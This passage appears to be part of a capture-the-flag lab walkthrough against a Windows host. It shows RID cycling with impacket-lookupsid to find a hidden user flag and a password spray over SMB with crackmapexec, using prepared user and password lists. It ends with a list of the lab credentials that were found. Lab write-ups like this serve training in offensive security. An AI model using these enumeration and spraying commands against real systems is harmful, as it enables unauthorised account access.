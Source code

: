 ### FLAG 002: Hidden User Account (15 points)
**Discovery Method**: RID cycling discovers hidden user with flag as username
```bash
# Use Impacket's lookupsid tool
impacket-lookupsid guest@192.168.1.22 -no-pass

# Scan through the output for RID 1078
# You'll find: 1078: WIN-TIP7RVRBJ8E\FLAG{MEW1078} (SidTypeUser)
```

---

## Password Discovery and Initial Access

### Discovering Valid Credentials
First, perform password spraying to find valid credentials:
```bash
# Create user list
cat > server_users.txt << EOF
Administrator
admin
backup
service
test
sqlservice
svc_print
debugger
EOF

# Create password list
cat > server_passwords.txt << EOF
Password123!
admin
admin123
backup123
service
test
sql2019
PrintService123
Debug2024!
EOF

# Perform password spray
crackmapexec smb 192.168.1.22 -u server_users.txt -p server_passwords.txt --continue-on-success
```

**Valid Credentials Found**:
- admin:admin
- backup:backup123
- service:service
- test:test
- sqlservice:sql2019
- svc_print:PrintService123
- debugger:Debug2024!
- Administrator:Password123!

---